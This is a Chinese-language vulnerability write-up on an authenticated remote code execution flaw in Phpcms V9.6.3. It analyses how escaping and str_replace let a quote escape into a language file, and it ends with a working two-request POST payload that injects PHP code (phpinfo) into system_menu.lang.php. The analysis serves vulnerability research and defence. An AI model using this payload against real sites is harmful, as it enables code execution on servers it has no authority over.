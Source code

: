 Phpcms V9.6.3 后台远程命令执行漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

漏洞代码位于 `/phpcms/modules/admin/menu.php` 第 81 行

    function edit() {
        if(isset($_POST['dosubmit'])) {
            $id = intval($_POST['id']);
            //print_r($_POST['info']);exit;
            $r = $this->db->get_one(array('id'=>$id));
            $this->db->update($_POST['info'],array('id'=>$id));
            //修改语言文件
            $file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
            require $file;
            $key = $_POST['info']['name'];
            if(!isset($LANG[$key])) {
                $content = file_get_contents($file);
                $content = substr($content,0,-2);
                $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
                file_put_contents($file,$data);
            } elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
                $content = file_get_contents($file);
                $content = str_replace($LANG[$key],$_POST['language'],$content);
                file_put_contents($file,$content);
            }
            $this->update_menu_models($id, $r, $_POST['info']);          
            //结束语言文件修改
            showmessage(L('operation_success'));
        } else {

        .  .  .   .  .  .  

        }
    }

这段代码是修改语言文件用的，而这个语言文件就是
/phpcms/languages/zh-cn/system\_menu.lang.php

里面一堆类似 `$LANG['video'] = '视频';` 的东西

当时用 rips 扫描发现的大多是
`$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";`
这种拼接操作，而且 POST 中的单引号会被转义，无法逃逸

转义代码位于 `/phpcms/libs/classes/param.class.php`

    public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        }

    }

而这里突然看到一个 str\_replace ，
`str_replace($LANG[$key],$_POST['language'],$content)`，感觉可能会有漏洞

一番胡乱测试之后惊奇的发现网站 500 了，细看原来是单引号逃逸导致报错

下面是漏洞分析过程

首先要登录后台拿到 pc\_hash 的值，这个是防止提交恶意数据的，后台首页 F12
就能看到

![1.png](resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId25.png)

然后访问：

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

phpcms 的路由和那个 yzmcms 差不多，m 是模块名，对应 /phpcms
下的文件夹，c 是控制器名，对应 /phpcms/模块/ 下的 php 文件名，a
则对应控制器类的类函数名

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1

语言文件最后会新添内容

    $LANG['1'] = '1';

### 第一次请求

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1'

`require $file;` 引入语言文件，`$LANG[$key]` 的值还是
NULL，所以执行拼接操作

    $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
    file_put_contents($file,$data);

得到语言文件新添内容为

    $LANG['1'] = '1\'';
    ?>

### 第二次请求

发送与第一次相同的 POST 请求

`require $file;` 引入语言文件得到 `$LANG[$key]` 的值是
`string(2) "1'"`，也就是说，没有反斜杠，这样问题就出现了，我们同样的请求发送了两次，按照代码逻辑来看，是不应该更新
`$LANG[$key]` 的值的

但是因为 `require` 和 `file_get_contents`
函数读取之后的文件内容不含反斜杠，而我们 POST 传入的 language
会被转义处理得到的值是 `string(3) "1\'"`

于是判断 `$LANG[$key]!=$_POST['language']` 就成立了，接着 `str_replace`
函数进行字符串替换操作，把原来的 `$LANG['1'] = '1\'';` 中的 `1'` 替换成
`1\'`，最终写入文件

结果就得到了以下文件内容，第二个单引号被反斜杠转义，无法闭合

    $LANG['1\'] = '1\'';
    ?>

payload:

发送两次以下请求，访问语言文件
http://www.0-sec.org:9000/phpcms/languages/zh-cn/system\_menu.lang.php
即可得到 phpinfo

URL:

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

POST:

    dosubmit=1&info[name]=];phpinfo();//1&language=];phpinfo();//1'

![2.png](resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId28.png)

参考链接
--------

> http://j0k3r.top/2019/10/09/phpcmsv9.6.3\_background\_rce/

